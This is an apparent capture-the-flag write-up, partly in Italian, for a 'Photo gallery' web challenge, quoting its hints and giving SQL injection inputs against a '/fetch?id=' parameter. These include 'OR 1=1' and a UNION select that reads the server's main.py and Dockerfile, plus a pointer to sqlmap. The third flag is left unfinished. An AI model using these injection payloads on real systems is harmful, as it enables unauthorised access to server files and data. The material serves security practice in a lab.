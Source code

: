 ## Photo gallery

# flag0

+ Hint: Consider how you might build this system yourself. What would the query for fetch look like?

![picture](imgs/1.png)

+ `/fetch?id=1 OR 1=1 --` non manda in errore l'esecuzione della query

+ Hint: This application runs on the [uwsgi-nginx-flask-docker image](https://github.com/tiangolo/uwsgi-nginx-flask-docker)

+ ![picture](imgs/2.png)

+ Hint : Take a few minutes to consider the state of the union

+ `/fetch?id=22 UNION select 'main.py'--` , come da immagine è possibile leggere anche Dockerfile

# flag1

+ [sqlmap](https://github.com/sqlmapproject/sqlmap)

+ ![picture](imgs/3.png)

# flag2

+ work in progress
